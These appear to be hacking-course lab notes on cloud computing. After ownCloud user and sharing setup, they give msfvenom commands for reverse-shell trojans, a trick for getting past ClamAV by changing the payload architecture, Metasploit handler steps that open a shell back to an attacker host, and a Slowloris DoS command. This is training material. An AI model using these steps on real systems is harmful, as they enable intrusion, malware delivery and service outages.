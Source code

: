 # Module 19 - Cloud Computing #

## Creating User Accounts and Assigning User Rights ##

### ownCloud ###
1. Login as Admin into ``` http://localhost/owncloud ``` (There's also a client desktop app).
2. Right Menu > 'Users'
3. Enter the username and password into the 'Username' and 'Password' fields, select the Groups it will belong to and click on 'Create'
4. Left Menu > 'Files'
5. Add Icon > Select a folder to add > 'Share'
6. Double Click the newly added folder > Add > Upload a file
7. Go back to the Files section
8. Select the three dots in the newly added folder > 'Details' > 'Sharing' > Add the new user
9. Select the sharing permissions of the new user (Share and Edit)

In the desktop client app, you can access, copy, add, delete... the files and folders from the computer to _ownCloud_, such as with _OneDrive_.


- - - -

## Securing ownCloud from Malicious File Uploads ##

Create the Trojan (``` msfvenom -p windows/meterpreter/reverse_tcp -f exe > <Output Path>/trojan.exe ```) and upload it to ``` http://<Victim IP>/owncloud ```.

### ClamAV ###
It will detect the Trojan and stop the upload.



- - - -

## Bypassing ownCloud Antivirus and Hacking the Host ##
1. Create a malicious file (``` msfvenom -p linux/x86/shell/reverse_tcp LHOST=<Attacker IP> LPORT=<Attacker Port> --platform linux -f elf > <Output Path>/exploit.elf ```) and upload it to ``` http://<Victim IP>/owncloud ```.
2. ClamAV will not detect it because we've changed the payload architecture.
3. ``` msfconsole ``` > ``` use multi/handler ``` > ``` set payload linux/x86/shell/reverse_tcp ```, ``` set LHOST <Attacker IP> ```, ``` set LPORT <Attacker Port> ```, ``` exploit ```
4. Now, from the victim machine download the ``` exploit.elf ``` file, change its permissions (``` chmod -R 755 exploit.elf ```) and execute it (``` ./exploit.elf ```).
5. In the attacker machine, if Meterpreter does not start automatically interacting with the victim, type: ``` sessions -i 1 ```.


- - - -

## Implementing DoS Attack on Linux Cloud Server ##

### Slowloris Script ###
1. Go to the Slowloris folder (``` cd Desktop/Slowloris/ ```)
2. Change the permissions to the main file ``` chmod 777 Slowloris.pl ```
3. Perform the DoS attack: ``` ./Slowloris.pl -dns <Target IP> ```
